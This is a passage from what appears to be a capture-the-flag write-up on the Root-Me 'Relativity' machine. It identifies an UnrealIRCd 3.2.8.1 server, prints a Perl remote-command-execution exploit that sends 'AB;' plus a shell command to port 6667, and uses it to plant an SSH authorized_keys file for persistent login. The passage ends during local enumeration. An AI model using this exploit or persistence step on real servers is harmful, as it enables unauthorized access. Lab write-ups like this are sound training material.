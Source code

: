 :relativity.localdomain 005 mk UHNAMES NAMESX SAFELIST HCN MAXCHANNELS=10 CHANLIMIT=#:10 MAXLIST=b:60,e:60,I:60 NICKLEN=30 CHANNELLEN=32 TOPICLEN=307 KICKLEN=307 AWAYLEN=307 MAXTARGETS=20 :are supported by this server
:relativity.localdomain 005 mk WALLCHOPS WATCH=128 WATCHOPTS=A SILENCE=15 MODES=12 CHANTYPES=# PREFIX=(qaohv)~&@%+ CHANMODES=beI,kfL,lj,psmntirRcOAQKVCuzNSMTG NETWORK=Relativity CASEMAPPING=ascii EXTBAN=~,cqnr ELIST=MNUCT STATUSMSG=~&@%+ :are supported by this server
:relativity.localdomain 005 mk EXCEPTS INVEX CMDS=KNOCK,MAP,DCCALLOW,USERIP :are supported by this server
{% endhighlight %}


Knowing this is an Unreal3.2.8.1 IRC server, we quickly find out about an [RCE exploit](https://www.exploit-db.com/exploits/13853/):

{% highlight perl %}
#!/usr/bin/perl
use Socket;
use IO::Socket;

my $command = $ARGV[0];
my $payload = 'AB;'.$command;
my $host = "127.0.0.1";
my $port = "6667";

my $sockd = IO::Socket::INET->new (PeerAddr => $host, PeerPort => $port, Proto => "tcp") || die "Failed to connect to $ircserv on $ircport ...\n\n";
print "Sending: ". $payload . "\n";
print $sockd "$payload";

{% endhighlight %}

Running this exploit confirms that we can run things and create files as the `jetta` user (the one that launched ircd)
The first order of things is to make our life easier and allow us to ssh as `jetta` directly:

{% highlight bash %}
perl exploit.pl 'mkdir /home/jetta/.ssh'
cp /home/mauk/.ssh/authorized_keys /tmp/
perl exploit.pl 'cp /tmp/authorized_keys /home/jetta/.ssh/'
exit
{% endhighlight %}

We can now ssh to the machine directly as the `jetta` user:

{% highlight bash %}
ssh -i privatekey jetta@ctf01.root-me.org
{% endhighlight %}

Looking around we find that there's an `auth_server` binary in the home directory :

{% highlight bash %}
[jetta@Relativity auth_server]$ ./auth_server
[+] Checking Certificates...done
[+] Contacting server, please wait...could not establish connection
error: (12)
_______________________________________
/ In America, it's not how much an item \
\ costs, it's how much you save.        /
 ---------------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||

[jetta@Relativity auth_server]$ sudo -l
Matching Defaults entries for jetta on this host: